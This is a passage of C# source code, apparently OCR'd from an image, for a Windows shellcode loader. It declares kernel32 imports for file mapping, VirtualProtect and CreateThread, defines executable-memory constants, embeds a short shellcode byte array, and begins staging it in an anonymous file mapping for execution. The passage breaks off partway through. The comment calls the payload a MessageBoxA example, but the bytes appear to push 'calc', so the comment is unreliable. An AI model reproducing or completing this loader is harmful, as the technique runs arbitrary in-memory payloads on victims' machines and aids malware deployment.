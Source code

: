 ```csharp
        IntPtr hFileMappingObject,
        uint dwDesiredAccess,
        uint dwFileOffsetHigh,
        uint dwFileOffsetLow,
        UIntPtr dwNumberOfBytesToMap);

    [DllImport("kernel32.dll", SetLastError = true)]
    static extern bool UnmapViewOfFile(IntPtr lpBaseAddress);

    [DllImport("kernel32.dll", SetLastError = true)]
    static extern bool VirtualProtect(
        IntPtr lpAddress,
        UIntPtr dwSize,
        uint flNewProtect,
        out uint lpflOldProtect);

    [DllImport("kernel32.dll", SetLastError = true)]
    static extern IntPtr CreateThread(
        IntPtr lpThreadAttributes,
        UIntPtr dwStackSize,
        IntPtr lpStartAddress,
        IntPtr lpParameter,
        uint dwCreationFlags,
        out uint lpThreadId);

    [DllImport("kernel32.dll", SetLastError = true)]
    static extern uint WaitForSingleObject(IntPtr hHandle, uint dwMilliseconds);

    // Constants for memory protection
    const uint PAGE_EXECUTE_READWRITE = 0x40;
    const uint PAGE_READWRITE = 0x04;
    const uint FILE_MAP_WRITE = 0x0002;
    const uint FILE_MAP_READ = 0x0004;
    const uint FILE_MAP_EXECUTE = 0x0020;
    const uint WAIT_OBJECT_0 = 0x00000000;
    const uint INFINITE = 0xFFFFFFFF;

    static void Main(string[] args)
    {
        // Shellcode (example is a simple MessageBoxA payload)
        byte[] shellcode = new byte[] {
            0x6a, 0x00, 0x68, 0x63, 0x61, 0x6c, 0x63, 0x54,
            0x53, 0xB8, 0xC7, 0x93, 0xBF, 0x77, 0xFF, 0xD0
        };

        // Create a file mapping
        IntPtr hFileMapping = CreateFileMapping(
            new IntPtr(-1),
            IntPtr.Zero,
            PAGE_READWRITE,
            0,
            (uint)shellcode.Length,
            null);

        if (hFileMapping == IntPtr.Zero)
        {
            Console.WriteLine("CreateFileMapping failed.");
            return;
        }

        // Map the view of the file
        IntPtr lpBaseAddress = MapViewOfFile(
            hFileMapping,
```